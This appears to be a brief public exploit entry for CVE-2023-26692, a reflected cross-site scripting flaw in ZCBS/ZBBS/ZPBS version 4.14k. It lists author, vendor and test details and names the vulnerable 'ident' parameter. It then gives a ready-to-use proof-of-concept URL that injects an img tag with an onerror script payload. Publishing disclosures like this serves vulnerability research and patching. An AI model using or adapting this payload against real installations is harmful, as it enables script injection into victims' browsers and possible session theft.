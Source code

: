 # CVE-2023-26692
 ZCBS/ZCBS/ZPBS/ZBBS Reflected XSS
 
#### Exploit Title: ZCBS/ZBBS/ZPBS v4.14k - Reflected XSS
#### Date: 2023-03-30
#### CVE: CVE-2023-26692
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.zcbs.nl
#### Software Link: https://www.zcbs.nl/cgi-bin/objecten.pl
#### Version: 4.14k
#### Tested on: LAMP, Ubuntu

---
[#] Vulnerability :
`$_GET['ident']`

[#] Exploitation :
`https://localhost/cgi-bin/objecten.pl?ident=%3Cimg%20src=x%20onerror=alert(%22XSS%22)%3E`

